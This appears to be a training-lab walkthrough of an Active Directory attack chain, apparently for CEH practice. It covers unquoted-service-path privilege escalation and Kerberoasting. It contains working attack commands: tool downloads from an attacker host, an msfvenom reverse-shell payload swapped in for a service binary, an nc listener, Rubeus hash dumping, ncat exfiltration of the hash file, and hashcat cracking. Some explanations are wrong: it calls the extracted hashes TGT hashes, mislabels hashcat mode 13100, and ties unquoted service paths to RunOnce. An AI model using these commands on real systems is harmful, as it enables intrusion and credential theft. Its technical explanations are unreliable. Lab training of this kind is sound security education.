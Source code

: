 
WinPEASx64.exe is a tool for Windows privilege escalation, identifying misconfigurations and vulnerabilities for potential exploitation

The Unquoted Service Path vulnerability in the RunOnce registry key arises when a Windows service path lacks proper quotation marks and contains spaces, enabling attackers to execute arbitrary code with elevated privileges during system startup

To perform further attacks, we need high privileges. For privilege escalation, we will use WinPEAS.exe to enumerate any misconfigurations

We will upload the WinPEAS.exe file and execute it in Windows

Move to C:\ using the command **cd C:\**

Next, move to **C:\Users\Public\Downloads** using **cd** and execute the command **powershell**

Now, we need to host winPEASx64.exe on the attacker machine using Python. Open a new terminal, type **sudo su**, press **Enter**, and use **toor** as password. Execute the command **cd /root/ADtools**

Type **python3 -m http.server** and press **Enter** to host the **winPEASx64.exe** file

Get back to the shell terminal and type **wget http://10.10.1.13:8000/winPEASx64.exe -o winpeas.exe**

Once winpeas.exe is downloaded, execute it with **./winpeas.exe**

Once the execution is completed, observe the output. Here, we have a file named **file.exe** in **C:\Program Files\CEH Services** that is unquoted and can be exploited for privilege escalation
  
Open a new terminal with root privileges using the command sudo su and **toor** as password. Execute the **msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=8888 -f exe > /root/ADtools/file.exe** command

Get back to our shell terminal and move to C:\Program Files\CEH Services. Execute the command **cd ../../.. ; cd "Program Files/CEH Services"**

Execute the command **move file.exe file.bak ; wget http://10.10.1.13:8000/file.exe -o file.exe**

Now, go to another terminal and type **nc -nvlp 8888** and press **Enter**

 
Click on [Windows Server 2019 (AD)](https://labclient.labondemand.com/Instructions/6b4befec-cb8e-49ba-859b-1b45da779221#) to switch to the Windows Server 2019 (AD) machine, assuming we are the victim now. Restart the machine by hovering over **Power and Display** button and click **Reset/Reboot** button present at the toolbar located above the virtual machine and log in with the username **SQL_srv** and password "**batman**."

After logging in, switch back to the [Parrot Security](https://labclient.labondemand.com/Instructions/6b4befec-cb8e-49ba-859b-1b45da779221#). Here, we got the shell to our netcat listener. Which is a privileged shell.

## Perform Kerberoasting Attack


Rubeus is a tool for exploiting Kerberos weaknesses in Windows environments. Kerberoasting is a method to extract ticket granting ticket (TGT) hashes from AD. Attackers target service accounts with associated Kerberos service principal names (SPNs). TGTs are requested from the DC for these accounts, then cracked offline to reveal user passwords. Kerberoasting exploits weak service account passwords and the nature of Kerberos authentication

In the netcat shell, execute the **powershell** command to launch PowerShell

Navigate to C:\Users\Public\Downloads and execute the command **cd ../.. ; cd Users\Public\Downloads**

Now, we will be downloading Rubeus and netcat. Execute the command 
**wget http://10.10.1.13:8000/Rubeus.exe -o rubeus.exe 
wget http://10.10.1.13:8000/ncat.exe -o ncat.exe**. 
Once the tools are downloaded type **exit** and press **Enter**

Type **cd ../.. && cd Users\Public\Downloads** and press **Enter** to move into the Downloads folder

Execute the command **rubeus.exe kerberoast /outfile:hash.txt**

After kerberoasting the password hash for **DC-Admin** is saved in **hash.txt** file

To get that hash file on the attacker machine, we will be using netcat. Open a new terminal, type **sudo su** and press **Enter**; use **toor** as password. Then execute the command **nc -lvp 9999 > hash.txt**

In the shell terminal, execute the command **ncat.exe -w 3 10.10.1.13 9999 < hash.txt**

Get back to the netcat listener terminal and press **Enter** to save the file
  
Now, we will be using HashCat to crack the password hash. Execute the command **hashcat -m 13100 --force -a 0 hash.txt /root/ADtools/rockyou.txt**

- -m 13100: This specifies the hash type. 13100 corresponds to Kerberos 5 AS-REQ Pre-Auth etype 23 (RC4-HMAC), a specific format for Kerberos hashes.
- --force: This option forces Hashcat to ignore warnings and run even if there are compatibility issues. Use this with caution, as it might cause instability or incorrect results.
- -a 0: This specifies the attack mode. 0 stands for a straight attack, which is a simple dictionary attack where Hashcat tries each password in the dictionary as it is.
- hash.txt: is the input file containing the hashes to crack
- /root/ADtools/rockyou.txt: is the wordlist file used for the attack

After completation, we get the password **advanced!**. As DC-Admin has high privileges on the domain, we can use this password for further attacks

